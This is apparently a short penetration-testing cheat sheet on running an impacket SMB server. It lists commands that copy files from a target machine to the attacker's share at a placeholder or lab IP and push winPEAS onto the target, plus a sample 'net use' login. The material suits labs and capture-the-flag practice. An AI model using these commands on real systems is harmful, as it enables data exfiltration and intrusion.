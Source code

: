 ```yaml
---
tags:
---
```

# smbserver

Quick SMB server to upload and download files

## Capabilities

```bash
# Setup SMB server
sudo impacket-smbserver -smb2support share $(pwd)
```

Interact with the SMB server from the target's machine

```powershell
# Move file from target to attack box
cp target_file.txt \\$OUR_IP\share\target_file.txt

# Move file from attack box to target
cp \\$OUR_IP\share\winPEASany.exe winPEAS.exe

# Include authentication
copy playercounter-1.0-SNAPSHOT.jar \\10.10.14.82\share\playercounter-1.0-SNAPSHOT.jar

# Include authentication
net use \\10.10.14.82\share /user:mojo password123
net use \\10.10.14.82\share /delete
```
